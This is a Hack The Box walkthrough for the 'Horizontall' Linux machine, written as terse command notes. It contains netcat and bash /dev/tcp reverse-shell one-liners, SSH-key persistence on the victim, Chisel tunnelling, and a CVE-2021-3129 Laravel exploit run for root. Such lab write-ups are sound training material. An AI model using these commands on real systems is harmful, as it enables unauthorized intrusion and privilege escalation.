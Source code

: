 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Foothold
### Nmap Scan
```bash
nmap -p- -T4 -oA scans/nmap-alltcp 10.129.61.76
```

### /etc/hosts Update
```bash
echo "10.129.61.76 horizontall.htb" | sudo tee -a /etc/hosts
```

### Virtual Host Discovery
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.76 -H "Host: FUZZ.horizontall.htb" --fs 194
```

### [Gobuster on API Virtual Host](HTTP)
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_api-prod.horizontall_medium_php-html-txt.txt
```

---

## ⚙️ Exploiting Strapi (Unauthenticated RCE)

### Confirming RCE (Blind)
```bash
tcpdump -i tun0 icmp
```
Send Ping via Exploit ➡️ receive ICMP in tcpdump.

### Reverse Shell Payload
```bash
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 80 >/tmp/f
```

---

## 🔑 Persistence via [SSH](SSH) Key
```bash
# On victim
mkdir /opt/strapi/.ssh
vim /opt/strapi/.ssh/authorized_keys

# On attacker
ssh-keygen -f strapi
scp strapi.pub to victim and paste into authorized_keys

# SSH access
ssh strapi@horizontall.htb -i strapi
```

---

## 🔍 Enumeration
### Database Creds
Found in:
```bash
/opt/strapi/myapi/config/environments/development/database.json
```

### Connect to MySQL
```bash
mysql -h 127.1 -u developer -p
```

### Open Ports (Local)
```bash
netstat -tulnp
```
Found: 1337, 8000

---

## 🔁 Port Forwarding with Chisel

### Start Chisel Server (Kali)
```bash
./chisel server --port 9000 --reverse
```

### Start Chisel Client (Victim)
```bash
./chisel client 10.10.16.5:9000 R:1234:127.0.0.1:8000
```

---

## 🕵️‍♂️ Web Enumeration on Laravel (p8000)
```bash
gobuster dir -u http://127.0.0.1:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_p8000_medium_php-html-txt.txt
```

Discovered: `/profiles`
Path leaked: `/home/developer/myproject/resources/views/profile/index.blade.php`

---

## 🧨 Privilege Escalation (Laravel RCE)

### CVE-2021-3129 Exploit
```bash
git clone https://github.com/joshuavanderpoll/CVE-2021-3129
python3 CVE-2021-3129.py --url http://127.0.0.1:1234 --exec 'bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"' --force
```

### Netcat Listener
```bash
nc -lnvp 443
```

---

## ✅ Root Access
Confirmed reverse shell drops as `root`.

---

## 📚 Resources
- Chisel: https://github.com/jpillora/chisel
- Strapi Exploit: https://www.exploit-db.com/exploits/50239
- Laravel Exploits:
  - https://www.exploit-db.com/exploits/49424
  - https://github.com/joshuavanderpoll/CVE-2021-3129